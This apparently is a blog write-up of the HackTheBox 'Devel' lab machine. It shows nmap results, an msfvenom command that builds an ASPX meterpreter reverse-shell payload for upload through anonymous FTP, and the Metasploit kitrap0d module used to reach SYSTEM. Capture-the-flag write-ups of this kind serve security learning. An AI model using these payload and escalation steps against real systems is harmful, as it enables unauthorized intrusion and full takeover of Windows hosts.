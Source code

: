 ```yaml
---
layout: post
title:  "HackTheBox - Devel"
date:   2020-1-2 00:10:00 +0000
categories: htb
---
```



# Nmap scan
```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  01:06AM       <DIR>          aspnet_client
| 03-17-17  04:37PM                  689 iisstart.htm
|_03-17-17  04:37PM               184946 welcome.png
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
```

# Exploitation
As the first scan shows, ftp is open and the web server is hosting the files put into ftp. We can create a aspx payload with msfvenom and upload that to test for a shell
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<X> LPORT=<X> -f aspx -o fml.aspx
```
Our metasploit handler returns a shell. Backgrounding the session allows us to take advantage of metasploits local_exploit/suggestor. Running this module returns some available modules that may work to get higher privileges.
```
use exploit/windows/local/ms10_015_kitrap0d
```
Running this module on the backgrounded session elevates us to SYSYEM


